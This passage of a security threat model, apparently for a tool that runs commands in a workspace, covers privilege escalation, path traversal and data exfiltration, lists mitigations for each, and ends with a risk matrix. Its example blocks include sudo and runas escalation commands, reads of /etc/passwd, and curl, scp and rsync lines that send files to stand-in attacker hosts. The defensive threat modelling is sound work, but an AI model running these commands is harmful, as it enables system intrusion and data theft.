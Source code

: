 #### 2.2.2 Privilege Escalation

**Attack Vector**: Elevation of privileges through system commands
```bash
# THREAT EXAMPLES
sudo su -
runas /user:administrator cmd
powershell -verb runas
```

**Mitigation Controls**:
- Enhanced validation patterns blocking privilege escalation
- Workspace-scoped execution environment
- Process isolation and sandboxing
- Administrative command blacklisting

#### 2.2.3 Path Traversal Attacks

**Attack Vector**: Directory traversal to access unauthorized files
```bash
# THREAT EXAMPLES
cd ../../../etc
cat ../../../../etc/passwd
copy file.txt ../../../Windows/System32/
```

**Mitigation Controls**:
- Path sanitization with workspace root validation
- Relative path blocking beyond workspace boundaries
- File system operation monitoring
- Access control enforcement

#### 2.2.4 Data Exfiltration

**Attack Vector**: Unauthorized data extraction through network commands
```bash
# THREAT EXAMPLES
curl -X POST -d @sensitive.txt http://evil.com/collect
scp * attacker@evil.com:/
rsync -av ./ evil@attacker.com:stolen/
```

**Mitigation Controls**:
- Network operation validation and restrictions
- HTTPS-only external communication allowlist
- Data loss prevention (DLP) monitoring
- Egress traffic filtering

### 2.3 Risk Assessment Matrix

| Threat | Likelihood | Impact | Risk Level | Mitigation Status |
|--------|------------|--------|------------|-------------------|
| Command Injection | High | Critical | **Critical** | ✅ Fully Mitigated |
| Privilege Escalation | Medium | High | **High** | ✅ Fully Mitigated |
| Path Traversal | Medium | High | **High** | ✅ Fully Mitigated |
| Data Exfiltration | Low | Critical | **High** | ✅ Fully Mitigated |
| DoS/Resource Exhaustion | Medium | Medium | **Medium** | ✅ Partially Mitigated |
| Session Hijacking | Low | High | **Medium** | ✅ Fully Mitigated |

---